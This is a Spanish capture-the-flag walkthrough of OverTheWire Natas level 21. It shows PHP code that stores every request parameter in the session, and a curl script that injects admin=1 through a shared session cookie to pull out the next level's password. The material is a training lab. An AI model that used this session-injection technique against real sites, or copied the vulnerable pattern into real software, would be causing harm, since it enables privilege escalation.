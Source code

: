 ```yaml
---
title: Natas-21
published: true
---
```


```
Url del reto: http://natas21.natas.labs.overthewire.org/index.php
login:natas21
 pass:IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

Este nivel trata de conseguir la variable de $_SESSION['admin']=1 para poder superar la prueba. 
Tendremos dos códigos php a estudiar. El de la pág principal que es el código que hemos encontrado en anteriores retos


```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
session_start();
print_credentials();

?>
```

Y el código que tenemos que estudiar es en la url http://natas21-experimenter.natas.labs.overthewire.org/

```php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>"; 

```

Estudiando el código nos tenemos que centrar en el siguiente bloque de código

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

Si existe $_REQUEST guardará el valor de estas variables en $_SESSION. Tenemos restringido las variables por POST, solo se permiten:

```php
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
```

Para que se nos guarden en $_SESSION las variables que queremos, tenemos que enviar en la misma petición la parte POST y GET donde inyectaremos variables

Se puede realizar esto en la parte de inspección de firefox u otro navegador. Yo he decidido finalmente realizar estas peticiones por bash mediante curl

```bash

#!/bin/bash

# seteamos urls. en url_exp estan declaradas las variables por GET
url_exp='http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug&admin=1'
url_main='http://natas21.natas.labs.overthewire.org/index.php'

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Primero la cookie url_main http://natas21.natas.labs.overthewire.org/
# tenemos que ir arrastrando la cookie entre las páginas que vamos visitando. Sino no funcionará
curl --cookie-jar cookie.txt -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ $url_main
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Realizamos conexión, arrastrando la cookie a natas21-experimenter.natas.labs.overthewire.org
#En esta petición enviamos los parametros POST y los GET (estan en la variable $url_exp /index.php?debug&admin=1
curl --cookie "PHPSESSID=$cookie" --referer $url_main $url_exp -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ -X POST -F align=center -F fontsize=100% -F bgcolor=yellow -F submit=Update


echo "<br>"
echo "<br>"
echo 'ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

# vamos de nuevo a la pagina principal arrastrando la cookie y las variables de _SESSION de natas21-experimenter
curl --cookie "PHPSESSID=$cookie" --referer $url_exp $url_main -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ

```

Ejecuto el código en bash

```
admin1@php:~$ bash bash-natas21.bash | html2text 


ENTRANDO EN: natas21.natas.labs.overthewire.org

****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials
for natas22.
View_sourcecode


ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org

****** natas21 - CSS style experimenter ******
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
[DEBUG] Session contents:
Array ( [debug] => [admin] => 1 [align] => center [fontsize] => 100% [bgcolor]
=> yellow [submit] => Update )
Example:
Hello world!
Change example values here:
align: [center              ]
fontsize: [100%                ]
bgcolor: [yellow              ]
[Update]
View_sourcecode


ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org


****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
View_sourcecode
```


Las credenciales del siguiente reto:

```
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

[Volver al archivo](archive)

